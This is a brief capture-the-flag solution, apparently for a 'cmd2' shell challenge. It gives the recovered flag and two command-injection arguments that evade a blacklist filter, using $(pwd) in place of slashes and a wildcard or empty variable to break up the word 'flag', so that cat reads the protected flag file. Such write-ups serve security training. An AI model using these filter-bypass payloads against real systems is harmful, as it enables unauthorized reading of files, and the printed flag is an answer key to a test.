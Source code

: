 cmd2's flag -> FuN_w1th_5h3ll_v4riabl3s_haha

./cmd2 'cd ..;cd ..;$(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)fla*'

./cmd2 'cd ..;cd ..;$(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)fla${INF}g'

